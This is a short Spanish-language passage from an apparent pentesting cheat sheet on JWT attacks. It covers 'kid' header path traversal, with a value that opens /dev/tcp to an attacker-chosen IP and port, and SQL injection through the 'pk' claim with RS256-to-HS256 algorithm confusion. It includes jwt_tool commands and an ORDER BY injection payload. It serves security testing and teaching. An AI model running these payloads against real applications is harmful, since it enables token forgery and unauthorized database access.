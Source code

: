 ### Path Traversal (kid)

Si se utiliza `kid` en el encabezado, verifique si puede usar un archivo diferente en el sistema de archivos. 

Elija un archivo del que pueda predecir el contenido, o pruebe:
```
"kid": "/dev/tcp/<yourIP>/<yourPort>"
```

Para probar la conectividad, o incluso algunas cargas útiles SSRF.

Use `jwt_tool` para manipular el `JWT` y cambiar el valor `kid`. Elija mantener la firma original:
```
python3 jwt_tool.py JWT_HERE -T
```

### SQL Injection

Esta vulnerabilidad puede ocurrir si algún parámetro en el header o el payload como puede ser `pk`, que está recuperando algún valor de la base de datos, no se desinfecta correctamente.

Si por ejemplo la aplicación utiliza el algoritmo `RS256`, pero la clave pública está visible en el claim `pk` presente en la sección "Payload", se puede convertir el algoritmo de firma a `HS256` y así crear nuevos tokens.

Comando para enumerar el número de columnas, el cual se puede inyectar en la sección "Payload" del `JWT` para enviarlo al server:
```
// Incrementar el valor en 1 hasta que ocurra un error
python3 jwt_tool.py <JWT> -I -pc name -pv "imparable 'ORDER BY 1--" -S hs256 -k public.pem
```
